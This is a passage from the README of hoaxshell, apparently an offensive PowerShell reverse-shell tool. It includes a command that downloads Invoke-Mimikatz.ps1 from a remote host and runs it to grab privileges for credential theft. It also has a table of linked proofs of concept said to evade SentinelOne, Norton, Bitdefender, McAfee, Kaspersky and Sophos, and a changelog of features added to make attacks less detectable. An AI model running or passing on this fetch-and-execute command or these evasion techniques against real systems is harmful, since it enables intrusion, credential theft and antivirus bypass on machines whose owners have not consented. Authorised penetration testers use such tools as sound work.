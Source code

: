 So, if you for example would like to run mimikatz throught hoaxshell you would need to invoke the commands:
```
hoaxshell > IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.13:4443/Invoke-Mimikatz.ps1');Invoke-Mimikatz -Command '"PRIVILEGE::Debug"'
```
Long story short, you have to be careful to not run an exe or cmd that starts an interactive session within the hoaxshell powershell context.

## AV Bypass PoCs
Some awesome people were kind enough to send me/publish PoC videos of executing hoaxshell's payloads against systems running AV solutions other than MS Defender, without being detected. Below is a reference table with links:

**Important**: I don't know if you can still use hoaxshell effectively to bypass these solutions. It's only reasonable to assume the detectability will change soon (if not already).

| AV Solution  | Date  | PoC  |
|---|---|---|
| SentinelOne | 2022-10-18 | https://twitter.com/i/status/1582137400880336896 |
| Norton | 2022-10-17 | https://twitter.com/i/status/1582278579244929024 |
| Bitdefender  | 2022-10-15  | https://www.linkedin.com/posts/rohitjain-19_hoaxshell-cy83rr0h1t-penetrationtesting-activity-6987080745139765248-8cdT?utm_source=share&utm_medium=member_desktop  |
| McAfee  | 2022-10-15  | https://twitter.com/i/status/1581605531365814273  |
| Kaspersky | 2022-10-13 | https://www.youtube.com/watch?v=IyMH_eCC4Rk |
| Sophos  | 2022-09-08  | https://www.youtube.com/watch?v=NYR0rWx4x8k  |


## News
 - `13/10/2022` - Added constraint language mode support (-cm) option.
 - `08/10/2022` - Added the `-ng` and `-lt` options that generate PS payloads for obtaining sessions using tunnelling tools **ngrok** or **localtunnel** in order to get around limitations like Static IP addresses and Port-Forwarding.  
 - `06/09/2022` - A new payload was added that writes the commands to be executed in a file instead of utilizing `Invoke-Expression`. To use this, the user must provide a .ps1 file name (absolute path) on the victim machine using the `-x` option.  
 - `04/09/2022` - Modifications were made to improve the command delivery mechanism as it included components that could be easily flagged. The `-t` option along with the `https_payload_trusted.ps1` were added. You can now use hoaxshell by supplying a domain name along with a trusted certificate. This will generate a shorter and less detectable https payload.  
 - `01/09/2022` - Added the `-H` option which allows users to give a custom name to the (random by default) header utilized in the attack process, carring the shell's session id. This makes the attack less detectable e.g. by using a standard header name e.g. "Authorization".
 - `31/08/2022` - Added the `-i` option that generates the PS payload adjusted to use "Invoke-RestMethod' instead of 'Invoke-WebRequest' utility, so now the user can choose (thanks to this [issue](https://github.com/t3l3machus/hoaxshell/issues/8)). I also fixed a bug that existed in the prompt (it sometimes messed the path).  

